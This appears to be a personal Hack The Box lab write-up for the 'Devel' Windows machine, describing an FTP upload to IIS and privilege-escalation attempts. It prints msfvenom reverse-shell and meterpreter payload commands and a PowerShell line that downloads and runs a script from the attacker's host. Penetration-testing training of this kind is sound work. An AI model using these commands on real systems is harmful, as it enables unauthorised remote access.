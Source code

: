 # Devel 10.10.10.5
## ftp and iis running on this windows machine
### based on the content of the ftp I believe that it is the webserver itself. 
- POC --> upload a html, htm, txt file and see if I can view it

## POC is successfull and the file exists on the server
### Create msfvenom payload in the form of an asp shell and upload
- If all else fails upload a web command shell
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.28 LPORT=1985 -f asp > shell.asp
``` 

- The asp shell threw a 500 error.
	- Change the port to 443 that we are listening on and make it aspx

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.28 LPORT=443 -f aspx > shell.aspx
``` 
### aspx shell works and now have a low privlage shell on the box

# Enumeration
## Attempt to download and run PowerUp.ps1 on the machine using ippsec's command from bastard
```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.28:8001/PowerUp.ps1') | powershell -noprofile -
```
- While a useful command, it was not fruitful in producing output

### I attempted to compile and install Watson, but was also not fruitful 
```
sudo python3 smbserver.py exploit .
```

```
net use \\10.10.14.28\exploit

\\10.10.14.28\exploit\Watson.exe
```
- It simply was not supported for the build because I used a windows 10 machines to build the project. Good to hold on to though
- Will continue following through with a writeup testing one of the many other kernal exploits
- We know the build and the date that windows 7 came out
- Does not appear to be updated or contain any service packs
- look for a POC and exploit

- https://0xdf.gitlab.io/2019/03/05/htb-devel.html

## Instead we're gonna go the meterpreter route
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.28 LPORT=443 -f aspx > meter_shell.aspx

```

- follow through with the write up and thats all!
	- Meterpreter is powerful
